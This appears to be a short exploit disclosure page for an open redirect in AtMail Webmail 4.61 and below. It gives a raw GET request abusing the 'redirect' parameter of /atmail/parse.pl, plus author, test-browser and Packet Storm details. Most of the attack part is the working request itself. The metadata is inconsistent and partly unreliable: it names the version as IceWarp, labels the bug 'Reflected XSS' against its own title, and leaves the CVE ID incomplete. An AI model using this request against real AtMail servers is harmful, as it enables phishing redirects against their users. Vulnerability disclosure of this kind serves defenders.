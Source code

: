 ```yaml
---
title: "AtMail 4.61 and below Open-Redirect"
collection: exploits
excerpt: "AtMail 4.61 and below Open-Redirect"
permalink: /exploit/atmail-redirect-exploit
date: 2020-03-11
tags:
  - exploit
  - CVE 2020
  - atmail
  - Open Redirect
  - AtMail Webmail version 4.61 nad below
---
```


**Exploit Author :** Lutfu Mert Ceylan  
**Date :** 11.03.2020  
**Software Link :** https://www.atmail.com/cloud-hosted-webmail/  
**Vendor Homepage :** https://www.atmail.com <br>
**Version :** IceWarp 4.61 and below  
**Tested on :** Mozilla Firefox 56.0 && Opera 67.0.3575.97  
**Category :** Reflected XSS  
**CVE ID :** CVE-2020-  

<hr><br>  

**GET REQUEST :**

GET /atmail/parse.pl?redirect=**TARGET URL** HTTP/1.1<br>
Host: **targethost**<br> 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0<br> 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br> 
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3<br> 
Accept-Encoding: gzip, deflate<br> 
Cookie: **cookie**<br> 
Connection: close<br> 
Upgrade-Insecure-Requests: 1<br> 

**Vulnerable File :**
/atmail/parse.pl<br> 
**Vulnerable Parameter :**
redirect


Packet Storm : <a href="https://packetstormsecurity.com/files/156705/AtMail-WebMail-4.61-Open-Redirect.html">156705</a>
